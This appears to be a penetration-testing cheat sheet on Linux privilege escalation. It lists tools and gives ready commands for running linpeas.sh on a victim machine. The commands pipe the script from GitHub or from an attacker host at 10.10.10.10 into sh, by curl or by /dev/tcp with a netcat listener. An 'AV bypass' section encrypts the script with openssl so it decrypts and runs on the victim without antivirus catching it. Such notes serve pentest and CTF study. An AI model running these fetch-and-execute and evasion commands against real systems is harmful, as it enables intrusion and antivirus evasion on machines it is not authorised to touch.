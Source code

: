 # Privilege Escalation

## Tools

* [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
* [linuxprivchecker.py - a Linux Privilege Escalation Check Script](https://github.com/sleventyeleven/linuxprivchecker)
* [unix-privesc-check - Automatically exported from code.google.com/p/unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)
* [Privilege Escalation through sudo - Linux](https://github.com/TH3xACE/SUDO\_KILLER)

## `linpeas.sh`

#### Execute from github

```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

#### Execute from attacker's machine

```bash
sudo python -m SimpleHTTPServer 80
curl 10.10.10.10/linpeas.sh | sh
```

#### &#x20;Execute from attacker's machine (Without curl)

```bash
sudo nc -q 5 -lvnp 80 < linpeas.sh
cat < /dev/tcp/10.10.10.10/80 | sh
```

#### &#x20;Output to file

```bash
# -a to execute all the checks
linpeas -a > /dev/shm/linpeas.txt

#Read with colors
less -r /dev/shm/linpeas.txt
```

### AV bypass

#### Using open-ssl encryption

```bash
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc

#Start HTTP server
sudo python -m SimpleHTTPServer 80

#Download from the victim's machine
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh
```
